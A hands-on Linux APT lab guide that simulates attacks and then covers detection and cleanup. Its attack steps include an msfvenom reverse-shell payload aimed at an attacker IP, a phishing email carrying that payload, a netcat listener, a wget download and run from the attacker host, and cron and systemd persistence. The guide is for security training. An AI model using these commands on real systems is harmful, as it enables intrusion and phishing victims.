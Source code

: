 # Hands-on Practical Guide for Advanced Persistent Threats (APTs) in Linux

## **Objective**
This hands-on guide will help you understand and analyze APT techniques, including infection vectors, persistence mechanisms, and detection methods in a Linux environment.

---

## **Prerequisites**
- A Linux machine (Ubuntu/Debian preferred)
- Basic knowledge of Linux commands and networking
- Access to tools like Wireshark, tcpdump, strace, and chkrootkit
- A virtual machine (recommended) for safe testing

---

## **1. Setting Up the Environment**
### **Install Necessary Tools**
```bash
sudo apt update && sudo apt install wireshark tcpdump strace chkrootkit netcat nmap curl -y
```

### **Enable System Logging for Monitoring**
```bash
sudo auditctl -e 1
sudo systemctl start auditd
```

---

## **2. Simulating APT Techniques**

### **A. Spear Phishing Attack Simulation**
#### *Step 1: Create a Malicious Payload*
Using msfvenom to generate a backdoor:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf > payload.elf
chmod +x payload.elf
```

#### *Step 2: Simulate a Spear-Phishing Email*
Send an email with a malicious attachment:
```bash
echo "Click to open the file for important details." | mail -A payload.elf -s "Urgent Security Update" victim@example.com
```

#### *Step 3: Set Up a Listener on Attacker’s Machine*
```bash
nc -lvnp 4444
```
Once the victim executes `payload.elf`, the attacker gains a shell.

---

### **B. Drive-by Download Attack Simulation**
#### *Step 1: Set Up a Malicious Web Server*
Using Python to host a malicious file:
```bash
python3 -m http.server 8080
```

#### *Step 2: Force Victim to Download Malicious File*
```bash
wget http://<attacker_ip>:8080/payload.elf -O /tmp/malware
chmod +x /tmp/malware
```

---

## **3. Persistence Mechanisms in APTs**
### **A. Creating a Cron Job for Persistence**
```bash
echo "* * * * * /tmp/malware" | crontab -
```

### **B. Using Systemd for Persistence**
Create a service file:
```bash
sudo nano /etc/systemd/system/malware.service
```
Add:
```ini
[Unit]
Description=Malware Service

[Service]
ExecStart=/tmp/malware
Restart=always

[Install]
WantedBy=multi-user.target
```
Enable the service:
```bash
sudo systemctl enable malware.service
sudo systemctl start malware.service
```

---

## **4. Detection and Analysis of APTs**

### **A. Detecting Network Anomalies**
Using tcpdump to capture suspicious traffic:
```bash
sudo tcpdump -i eth0 port 4444
```

### **B. Checking Running Processes**
```bash
ps aux | grep malware
```

### **C. Detecting Rootkits**
```bash
sudo chkrootkit
```

### **D. Monitoring System Calls**
```bash
sudo strace -p <pid_of_suspicious_process>
```

---

## **5. Mitigation Strategies**

### **A. Kill Malicious Processes**
```bash
sudo pkill -9 malware
```

### **B. Remove Persistence Mechanisms**
```bash
crontab -r
sudo systemctl disable malware.service
```

### **C. Update System and Apply Security Patches**
```bash
sudo apt update && sudo apt upgrade -y
```

### **D. Implement Network Segmentation & Firewall Rules**
```bash
sudo ufw enable
sudo ufw deny 4444
```

---

## **Conclusion**
This hands-on guide provided a practical approach to understanding APTs, simulating attacks, detecting infections, and mitigating threats. Always perform such testing in an isolated environment and implement strict security measures to protect systems against real-world APT attacks.

